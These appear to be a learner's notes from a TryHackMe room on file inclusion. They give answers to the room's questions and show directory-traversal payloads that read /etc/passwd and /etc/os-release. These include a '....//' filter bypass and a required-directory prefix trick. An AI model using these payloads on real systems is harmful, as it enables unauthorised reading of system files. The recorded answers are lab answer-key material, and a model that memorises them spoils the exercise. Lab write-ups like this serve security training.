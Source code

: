 ```
sidequest

not sure why the /. still works as we are providing a directory instead of an individual file

<?php
    echo file_get_contents("/etc/passwd", "r");
?>

works but

<?php
    echo file_get_contents("/etc/passwd/.", "r");
?>

└─$ php test.php
PHP Warning:  file_get_contents(/etc/passwd/.): Failed to open stream: No such file or directory in /home/kali/thm/file_inclusion/working/test.php on line 2

```

2. Which function is causing the directory traversal in Lab #4?

ANSWER: file_get_contents

```
used "lab4.php?file=../../../../etc/passwd/."
```

- Input Validation
- Can replace '../' with ''
- bypass using '....//....//....//....//....//etc/passwd'
	- this works only if they are doing a single iteration

```
Lab #5

/lab5.php?file=....//....//....//....//etc/passwd

```

- Sometimes a defined directory must be included in the input
- Just include it and go go up an extra directory

3. Try out Lab #6 and check what is the directory that has to be in the input field?

ANSWER: THM-profile

4. Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?

ANSWER: 12.04

```
/lab6.php?file=THM-profile/../../../../../etc/os-release
```

# Task 6: Remote File Inclusion - RFI
